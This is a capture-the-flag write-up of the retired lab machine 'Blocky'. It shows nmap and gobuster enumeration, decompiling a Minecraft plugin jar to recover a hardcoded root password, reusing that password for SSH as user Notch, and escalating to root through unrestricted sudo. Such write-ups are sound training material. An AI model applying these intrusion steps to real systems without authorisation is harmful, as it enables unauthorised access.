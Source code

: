 # Blocky

This is the write-up for the box Blocky that got retired at the 9th December 2017.
My IP address was 10.10.14.25 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.37    blocky.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/blocky.nmap 10.10.10.37
```

```markdown
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is installed as a WordPress page with one article written by the user _Notch_, which seems to be a Minecraft blog.
Lets search for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.37 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Except for the default WordPress paths there are some more:
- /wiki
  - Says that it is _Under Construction_ and nothing else
- /plugins
  - Two **.jar** files to download with the names _BlockyCore.jar_ and _griefprevention-1.11.2-3.1.1.98.jar_
- /javascript
  - HTTP code 403 Forbidden
- /phpmyadmin
  - **phpMyAdmin** installation

Lets look into those Java files.

### Examining the Java files

It is possible to extract the files out of a .jar file with the `unzip` command:
```markdown
unzip BlockyCore.jar
```

It extracts the folder **META-INF** with a **MANIFEST.MF** file that has only the manifest version as content.
And it extracts the file **com/myfirstplugin/BlockyCore.class** which is a Java class file, that can be compiled with the `jad` command:
```markdown
jad BlockyCore.jar
```

This extracts the source code which is now readable. Here is the most important part:
```java
(...)
public class BlockyCore
{

    public BlockyCore()
    {
        sqlHost = "localhost";
        sqlUser = "root";
        sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }

    public void onServerStart()
(...)
```

The username and password of a root user are coded in plaintext in this file.

### Using the credentials on FTP and SSH

The credentials don't work on FTP nor on SSH with the user _root_.
But trying them with the user _Notch_ which is an author on the WordPress blog, this password works and we are authenticated on the box.

## Privilege Escalation

When looking for `sudo` privileges for this user, he can run every command as root.
```markdown
sudo -l

# Output
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
```markdown
sudo su
```

This means we can do anything on this box as root or switch user to root!
